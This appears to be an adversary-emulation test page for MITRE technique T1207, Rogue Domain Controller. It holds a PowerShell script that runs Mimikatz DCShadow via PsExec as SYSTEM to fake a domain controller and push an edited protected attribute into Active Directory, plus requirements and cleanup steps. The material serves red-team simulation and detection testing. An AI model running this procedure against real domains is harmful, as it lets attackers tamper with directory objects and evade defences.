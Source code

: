 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# T1207 - Rogue Domain Controller
### Attacks
* DCShadow - Mimikatz
	* References
		* [DCShadow](https://www.dcshadow.com/)
		* [Additional Reference](http://www.labofapenetrationtester.com/2018/04/dcshadow.html)
	* Overview
		* Use Mimikatz DCShadow method to simulate behavior of a Domain Controller and edit protected attribute.
		* It will set the badPwdCount attribute of the target user (user/machine account) to 9999. You can check after with:
	* Command

		```pwsh
		Get-ADObject -LDAPFilter '(samaccountname=<user>)' -Properties badpwdcount | select-object -ExpandProperty badpwdcount
		```

		* Need SYSTEM privileges locally (automatically obtained via PsExec, so running as admin is sufficient), and Domain Admin remotely.
		* The easiest is to run elevated and as a Domain Admin user.
	* Requirements
		* Administrative Privileges 
	* Command

		```powershell
		# starting fake DC server, as SYSTEM (required)
		$dc_output_file = "$env:TEMP\art-T1207-mimikatz-DC.log"
		Remove-Item $dc_output_file -ErrorAction Ignore
		$mimikatzParam ="`"log $dc_output_file`" `"lsadump::dcshadow /object:#{object} /attribute:#{attribute} /value:#{value}`" `"exit`""
		$dc = Start-Process -FilePath cmd.exe -Verb Runas -ArgumentList "/c #{psexec_path} /accepteula -d -s #{mimikatz_path} $mimikatzParam"

		# wait for fake DC server to be ready...
		Start-Sleep -Seconds 5

		# server ready, so trigger replication (push) and wait until it finished
		& #{mimikatz_path} "lsadump::dcshadow /push" "exit"

		Write-Host "`nWaiting for fake DC server to return"
		Wait-Process $dc

		Write-Host "`nOutput from fake DC server:"
		Get-Content $dc_output_file
		Start-Sleep 1 # wait a little until the file is not locked anymore so we can actually delete it
		Remove-Item $dc_output_file -ErrorAction Ignore

		Write-Host "End of DCShadow"
		```
	* Cleanup

		```powershell
		Stop-Process -Name "mimikatz" -Force -ErrorAction Ignore
		```
